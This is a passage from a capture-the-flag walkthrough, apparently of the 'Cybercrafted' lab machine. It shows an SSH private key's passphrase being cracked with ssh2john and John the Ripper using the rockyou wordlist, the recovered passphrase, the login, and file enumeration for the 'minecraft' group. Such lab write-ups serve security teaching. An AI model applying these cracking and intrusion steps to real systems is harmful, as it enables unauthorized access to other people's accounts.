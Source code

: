 ```
root@ip-10-10-168-165:~# ssh -i admin_rsa xxxxxxxxxxxxxxxxxxx@10.10.155.126
The authenticity of host '10.10.155.126 (10.10.155.126)' can't be established.
ECDSA key fingerprint is SHA256:okt+zU5MJ0D6EUFqOILqeZ9l1c9p53AxM90JQpBvfvg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.155.126' (ECDSA) to the list of known hosts.
Enter passphrase for key 'admin_rsa': 
```

It appears the private key has passphrase. No worries, `ssh2john.py` can pull the hash off of the key for us. Once we have the hash, JohnTheRipper can be used to decypt the hash file.

```
root@ip-10-10-168-165:~# /opt/john/ssh2john.py admin_rsa > admin_rsa.hash
root@ip-10-10-168-165:~# john --wordlist=/usr/share/wordlists/rockyou.txt admin_rsa.hash
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
creepin2006      (admin_rsa)
1g 0:00:00:16 DONE (2021-11-21 06:20) 0.05906g/s 847117p/s 847117c/s 847117C/s *7¡Vamos!
Session completed.
```

With the passphrase now in hand, we can try to ssh once again:

```
root@ip-10-10-168-165:~# ssh -i admin_rsa xxxxxxxxxxxxxxxxxxx@10.10.155.126
Enter passphrase for key 'admin_rsa': 
xxxxxxxxxxxxxxxxxxx@cybercrafted:~$ 
```

And we're in!

First things first, we need to learn more about this user. We should see what groups they are associate with. To do this, we can use `cat /etc/group` to view all groups and see who's associated with each one, or we can just use the command `groups`

```
xxxxxxxxxxxxxxxxxxx@cybercrafted:~$ groups
xxxxxxxxxxxxxxxxxxx minecraft
```

It appears our user is a part of the `minecraft` group. Next we should see what files this group can view.

```
xxxxxxxxxxxxxxxxxxx@cybercrafted:~$ find / -type f -group minecraft 2>/dev/null
/opt/minecraft/note.txt
/opt/minecraft/minecraft_server_flag.txt
/opt/minecraft/cybercrafted/help.yml
/opt/minecraft/cybercrafted/commands.yml
/opt/minecraft/cybercrafted/world/level.dat_mcr
/opt/minecraft/cybercrafted/world/session.lock
/opt/minecraft/cybercrafted/world/DIM-1/data/villages.dat
/opt/minecraft/cybercrafted/world/DIM-1/forcedchunks.dat
--[snip]--
```

